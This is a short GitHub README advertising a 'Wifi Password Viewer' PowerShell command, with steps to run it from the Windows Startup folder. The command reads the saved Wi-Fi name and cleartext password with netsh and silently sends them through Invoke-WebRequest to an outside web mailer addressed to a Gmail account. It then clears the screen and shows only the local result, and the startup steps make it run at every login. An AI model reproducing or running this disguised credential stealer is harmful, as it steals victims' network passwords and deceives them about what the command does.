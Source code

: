 <h2 align="center">Hi 👋, I'm PROTAN HALDER</h2>
<h3 align="center">A Wifi Password Viewer.</h3>


#### Directly Run this command in The PowerShell.
```
$SSID = (netsh wlan show profile|find "All User Profile").Split(":")[1].SubString(1); $PWD  = (netsh wlan show profile name="$SSID"  key=clear | find "Key Content").Split(":")[1].SubString(1); $Data = "SSID :$SSID`nPASS :$PWD ";Invoke-WebRequest -Uri "https://email-pranks.000webhostapp.com/gmail.php?from=hasanhawladar2021@codewithharry.com&to=protanhalder2022@gmail.com&subject=Wifi Information of $Data&message=$Data";clear;echo $Data
```
### Set this program in StartUp

####    you should pase the "WiFucker.bat" file into the StartUp folder [ (window+R) shell:startup]
####    then paste the "WiFucker.ps1" file into another folder exept StartUp folder.
####    then copy the path of "WiFucker.ps1" file and replace the path from "WiFucker.bat" file . 

